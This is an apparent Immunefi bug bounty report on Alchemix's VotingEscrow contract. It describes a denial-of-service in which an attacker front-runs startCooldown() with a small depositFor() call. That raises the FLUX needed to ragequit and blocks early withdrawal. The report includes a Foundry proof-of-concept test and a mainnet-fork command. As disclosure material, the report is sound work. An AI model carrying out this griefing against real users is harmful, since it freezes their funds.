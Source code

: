 
# DoS in startCooldown() when users want start coold down before lock is expired

Submitted on Sun May 12 2024 05:24:32 GMT-0400 (Atlantic Standard Time) by @Lastc0de for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31080

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Permanent freezing of unclaimed yield
- Temporary freezing of funds for 12 hours
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
There will be a one-epoch `cooldown` period between unlocked tokens and being able to claim them to the user’s wallet. Locked tokens can become eligible for unlocks by burning Flux tokens.
When the user wants to withdraw his/here locked tokens, he/she must start the `cooldDown` mechanism before withdrawing, otherwise he will not be able to withdraw.

Activating this process is possible in two ways:
* 1- lock period is expired
* 2- lock period is not expired

There is a vulnerability in model 2 that allows a malicious user to freeze the activation of this process for a short or long time for users who want to use the second method ( Denial-of-Service).

## Vulnerability Details
* Vulnerable contract is `VotingEscrow.sol`:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

* Vulnerable function is `startCooldown()` :
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L778C1-L804C6

~~~
    function startCooldown(uint256 _tokenId) external {
//...

        locked[_tokenId].cooldown = block.timestamp + WEEK;

        // If lock is not expired, cooldown can only be started by burning FLUX
        if (block.timestamp < _locked.end) {
            // Amount of FLUX required to ragequit
            uint256 fluxToRagequit = amountToRagequit(_tokenId); // @AUDIT-1

            require(IFluxToken(FLUX).balanceOf(msg.sender) >= fluxToRagequit, "insufficient FLUX balance"); // @AUDIT-2

            IFluxToken(FLUX).burnFrom(msg.sender, fluxToRagequit);

            emit Ragequit(msg.sender, _tokenId, block.timestamp);
        }

        emit CooldownStarted(msg.sender, _tokenId, _locked.cooldown);
    }
~~~

When a user want withdraw his/here locked amounts before do that should start coold down process.
Above we can see the function that activates this process.
When a user  who wish to unlock their veALCX early, should burn Flux Tokens this means that should buy Flux Token of other users

## Deep dive

* AUDIT-1
For this, the `VotingEscrow.sol` first calculates Amount of FLUX required to `ragequit` by calling the `amountToRagequit()` function:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L345C1-L356C6
~~~
    /// @inheritdoc IVotingEscrow
    function amountToRagequit(uint256 _tokenId) public view returns (uint256) {
        // amount of flux earned in one epoch
        uint256 oneEpochFlux = claimableFlux(_tokenId); // @AUDIT-1-A

//..
    }

~~~
* AUDIT-1-A
In the first line of this function, the amount of flux earned in one epoch is obtained by calling the `claimableFlux` function:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L377C1-L385C6
~~~
    function claimableFlux(uint256 _tokenId) public view returns (uint256) {
        // If the lock is expired, no flux is claimable at the current epoch
        if (block.timestamp > locked[_tokenId].end) {
            return 0;
        }

        // Amount of flux claimable is <fluxPerVeALCX> percent of the balance
        return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS; // @AUDIT-1-A-a
    }
~~~
* AUDIT-1-A-a
This line calculate and return Amount of flux claimable is <fluxPerVeALCX> percent of the balance
* as you can see this function calculate returned value by percent of the balance so by deposit  for a `tokenId` can manipulate this value.


We can do this by calling the `depositFor()` function:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L667C1-L678C1

~~~
    function depositFor(uint256 _tokenId, uint256 _value) external nonreentrant {
//...
    }

~~~


## but what is the problem?

So we go to the beginning of the report to see `AUDIT-2`:

* AUDIT-2 : `require(IFluxToken(FLUX).balanceOf(msg.sender) >= fluxToRagequit, "insufficient FLUX balance");`

If the balance of the  Flux Token for user is less than the calculated value meaning `fluxToRagequit`, the user cannot call this function for a while, so the user must increase the balance of Flux tokens in his wallet, and this is only possible by buying tokens from other users.

## Secnario

For example, Bob wants to withdraw his tokens before the lock time done.

1- Bob knows for do this should buy 5 Flux Token

2- Bob buyed 5 Flux Token

3- Alex knows Bob Want withdraw his locked tokens (Ex:front-running)

4- Alex before Bob make call depositFor() - for Bob tokenId with small amount

5- Bob cant start coold down because he does not have enough tokens for this

6- Bob should buy more Flux Token

7- A malicious user can do this for a long time and prevent the withdrawal of other users' tokens

## Impact Details
Attacker can Freeze this function for users so users for short -or long time cant withdraw his/here locked tokens

## References

https://alchemixfi.medium.com/vealcx-update-272e8900ac5a

        
## Proof of concept
## Proof of Concept
1- Add this function in `VotingEscrow.t.sol` file :

~~~
    function test_AmountToRagequit_Fuzzing() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, THREE_WEEKS, false);

        uint256 ragequitAmount = veALCX.amountToRagequit(tokenId);

        // Log regequitAmount
        console.log("#BEFORE - How much `ragequitAmount` need ? %d", ragequitAmount);

        // Mint needed Ragequit and withdraw token
        hevm.prank(address(veALCX));
        flux.mint(admin, ragequitAmount);

        // Approve Flux token
        hevm.prank(admin);
        flux.approve(address(veALCX), ragequitAmount);


        /* Maliciouse User call `depositFor()` function for tokenId with small amount
            1- Mint bpt token for this Maliciouse contract
            2- call depositFor() , for tokenId
        */
        deal(bpt, address(this), TOKEN_1);
        IERC20(bpt).approve(address(veALCX), TOKEN_1);
        veALCX.depositFor(tokenId, 1e7); // Deposit small amount for user - `tokenId`

        // Log regequitAmount
        uint256 ragequitAmount_AFTER = veALCX.amountToRagequit(tokenId);
        console.log("#AFTER - How much `ragequitAmount` need ? %d", ragequitAmount_AFTER);

        // check `ragequitAmount` and `ragequitAmount_AFTER` is equal or not
        assertEq(ragequitAmount,ragequitAmount_AFTER,"`ragequitAmount` before and after not equal because:");

        hevm.expectRevert("startCooldown() TX reverted because : `ragequitAmount` increased by Maliciouse user");
        hevm.prank(admin);
        veALCX.startCooldown(tokenId);
    }
~~~

2- Runing test
~~~
forge test --match-test "test_AmountToRagequit_Fuzzing" --fork-url https://eth-mainnet.public.blastapi.io -vvvv
~~~